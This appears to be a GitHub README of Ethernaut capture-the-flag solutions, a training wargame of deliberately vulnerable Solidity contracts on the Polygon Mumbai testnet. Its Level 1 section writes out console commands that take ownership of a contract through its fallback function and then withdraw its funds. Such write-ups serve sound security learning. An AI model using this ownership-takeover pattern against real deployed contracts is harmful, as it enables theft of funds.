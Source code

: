 # Ethernaut Capture the Flag (CTF)
The Ethernaut is a Web3/Solidity based wargame inspired by overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. The game is 100% open source and all levels are contributions made by other players.

# Assignments

## Submission
Please create a pull request with:
- The instance address of the contract you submitted
- Your wallet address
- The testnet you are using

## Ethernaut Level 0
 https://ethernaut.openzeppelin.com
 
##Solution
Try to understand the contract object, its functions and call the appropriate functions based on the contract ABI
Network: Polygon Mumbai
Instance: 0xC19F79Df2Fac6e2B44E7C13B0e2802EDA28b1Cf5
Tx: https://mumbai.polygonscan.com/tx/0xea9c8a26883de9737fa5d6c7974c70b890b793cfab02c6908f07ae220d3aebaa
 

## Ethernaut Level 1
https://ethernaut.openzeppelin.com

## Solution
Network: Polygon Mumbai

Instance: 0xda57daF1c08A0535E6ef5D60105ECeC369a4580A

Tx: https://mumbai.polygonscan.com/tx/0xe30925346ea5bde1a0bd5c1ff769dc26fb07a591194b9fc8c00de6a3339f5821

Steps: 

> await contract.owner()

0x2a24869323C0B13Dff24E196Ba072dC790D52479

> let bal = await contract.contributions('0x2a24869323C0B13Dff24E196Ba072dC790D52479')

> bal.toString()

'1000000000000000000000'

> await contract.contribute({value: toWei("0.00000000001","ether")})

> await contract.sendTransaction({value: toWei("0.00001","ether")})

> await contract.owner()

'0xdbaE4296E3Dd9d3f31a71BA7afa1735D0BaF92F6'

> player

'0xdbaE4296E3Dd9d3f31a71BA7afa1735D0BaF92F6'

> await contract.withdraw()
